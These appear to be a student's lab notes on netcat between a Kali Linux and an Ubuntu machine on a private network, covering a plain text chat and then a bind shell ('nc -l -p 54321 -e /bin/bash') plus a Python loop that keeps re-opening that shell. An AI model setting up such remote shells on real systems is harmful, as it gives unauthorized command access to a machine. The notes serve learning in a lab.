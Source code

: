 - Performed on our Kali Linux Internal computer:
	- We us the **nc** (netcat) command 
	- We enter the following:
		- nc -l -p 54321
		- -l is our port to listen on 
		- -p is the port number
	- The computer will now listen on this port

- On our Ubuntu computer we perform the following:
	- nc 192.168.11.100 54321
		- The IP of our Kali Linux internal computer
		- If we enter text in either machine, the text should appear in the terminal of the receiving machines terminal 

- By using:
	- nc -l -p 54321 -e /bin/bash
- On the Kali Linux computer and running:
	- nc 192.168.11.100 54321
- On the Ubuntu computer 
- We can run commands that will execute on the Kali Linux terminal 

- To run bash code in python:
	- python
		- import os
		- while True:
			- os.system("nc -l -p 54321 -e /bin/bash")
	- Control + Z to quit loop

[[Web Services with Apache]]